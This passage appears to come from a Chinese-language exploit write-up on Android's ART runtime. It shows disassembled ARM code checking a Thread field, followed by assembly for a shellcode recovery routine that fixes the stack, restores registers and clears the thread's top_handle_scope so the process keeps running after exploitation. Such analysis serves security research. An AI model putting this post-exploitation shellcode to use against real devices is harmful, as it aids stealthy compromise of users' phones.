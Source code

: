 ```
PUSH.W          {R4-R11,LR}
SUB.W           SP, SP, #0x418
SUB             SP, SP, #4
MOV             R5, R1
LDR             R1, =(__stack_chk_guard_ptr - 0x3AE4A6)
ADD             R1, PC  ; __stack_chk_guard_ptr
LDR.W           R10, [R1] ; __stack_chk_guard
LDR.W           R1, [R10]
LDR             R3, =(_ZTVN3art8RootInfoE - 0x3AE4B8) ; `vtable for'art::RootInfo
STR.W           R1, [SP,#0x440+var_28]
MOVS            R1, #4
ADD             R3, PC  ; `vtable for'art::RootInfo
STR             R1, [SP,#0x440+var_434]
ADD.W           R1, R3, #8
STR             R2, [SP,#0x440+var_430]
MOVS            R2, #0
STR.W           R2, [SP,#0x440+var_2C]
STRD.W          R5, R1, [SP,#0x440+var_43C]
LDR.W           R7, [R0,#0xDC]           ; [1]
CMP             R7, #0
BEQ             loc_3AE582
```

在[1]中，我们检查Thread对象的偏移量0xDC是否为null。在我们返回的位置，r6指向当前的Thread <em>对象。<br>
因此，我们的Shellcode从还原的寄存器中获取当前的Thread </em>值，并在继续操作之前清除该字段。<br>
Shellcode的最终恢复部分如下所示：

```
return:
# Get and fix sp up. Point to stack frame containing r4-r10 and pc.
  ldr r3, smem
  ldr sp, [r3]
  ldr r3, retoff

search:
  # Load 'lr' if there 
  ldr r0, [sp, #0x20] 
  cmp r0, r3
  addne sp, sp, #4
  bne search

done: 
# Pop all registers
  pop {r4-r11, lr}

# Clear thread top_handle_scope
  mov r0, #0
  str r0, [r6, #0xdc]

  bx lr
```
